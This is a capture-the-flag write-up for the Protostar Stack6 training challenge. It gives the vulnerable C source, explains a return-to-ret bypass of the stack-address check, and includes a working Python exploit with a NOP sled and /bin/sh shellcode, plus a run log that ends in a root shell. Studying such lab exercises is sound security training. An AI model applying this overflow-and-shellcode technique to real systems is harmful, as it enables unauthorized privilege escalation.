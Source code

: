 Our goal is to solve this explotation challenge <i> [Stack6](https://exploit.education/protostar/stack-six/)</i>


# Code to exploit 
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}


```
## Problem of code
This is a standard buffer overflow challenge but with one difference from the previous one.
The code uses a compiler function called __builtin_return_address which gives us the current
return address of the function and then it checks if the return address starts with 0xbf which is 
the stack. 

So we can't redirect immediately to the stack.

What we will do is "return to the return command its self"

With this technique (return oriented programming) we will pass the check of return address and then the return command will pop
next word from stack and return there.



And then with this python code we will do the final explotation

```c
import struct

#This function generates a string like AAAABBBBCCCC... so that we can find some information -
#when we overflow gets function. Characters like AAAABBBBCCCC have easy to recognise hex values in gdb

def create_overflow_string(size):
        string = ""
        for i in range(size):
                if (i <26):
                        string = string + str(chr(65+i))*4
        return string

RANDOM_STRING_OVERFLOW = False
#RANDOM_STRING_OVERFLOW = True


#Find stack information
if (RANDOM_STRING_OVERFLOW == True ):
        string = create_overflow_string(26)
        print(string)

#Actual exploit
else:
        string = create_overflow_string(26)
        string =  string.split("UUUU")[0]

        #EIP points to next word
        EIP = struct.pack("I",0xbffff6e0+32)
        Return = struct.pack ("I",0x080484f9)


#       Copy shellcode from https://shell-storm.org/shellcode/files/shellcode-851.php
        shellcode ="\x90"*100+"\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68"
        print (string+ Return +EIP+shellcode)


```


Finally we run like this, we use cat to keep stdin open for bin s

https://unix.stackexchange.com/questions/297560/cat-into-stdin-then-pipe-into-program-keeps-forked-shell-open-why

```
user@protostar:~$ cat <(python stack6.py) - | /opt/protostar/bin/stack6^C
user@protostar:~$ cat <(python stack6.py) - | /opt/protostar/bin/stack6
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP�RRRRSSSSTTTT��
whoami
root


```

